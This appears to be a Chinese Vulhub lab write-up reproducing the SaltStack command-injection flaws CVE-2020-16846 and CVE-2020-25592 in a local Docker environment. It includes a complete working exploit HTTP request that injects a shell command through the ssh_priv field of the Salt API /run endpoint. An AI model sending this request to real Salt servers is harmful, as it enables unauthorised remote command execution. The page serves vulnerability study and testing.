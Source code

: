 # SaltStack 命令注入漏洞 CVE-2020-16846

## 漏洞描述

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。2020年11月SaltStack官方披露了CVE-2020-16846和CVE-2020-25592两个漏洞，其中CVE-2020-25592允许任意用户调用SSH模块，CVE-2020-16846允许用户执行任意命令。组合这两个漏洞，将可以使未授权的攻击者通过Salt API执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag

## 环境搭建

Vulhub执行如下命令启动一个SaltStack Master服务：

```
docker-compose up -d
```

环境启动后，将会在本地监听如下端口：

- 4505/4506 这是SaltStack Master与minions通信的端口
- 8000 这是Salt的API端口，**需要通过https访问**
- 2222 这是容器内部的SSH服务器监听的端口

## 漏洞复现

向`https://your-ip:8000/run`发送如下数据包：

```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/awesome_poc%3b
```

![image-20220228201318654](./images/202202282013907.png)

通过`ssh_priv`位置注入命令`touch /tmp/awesome_poc`，进入容器可见已执行成功：

![image-20220228201334846](./images/202202282013086.png)

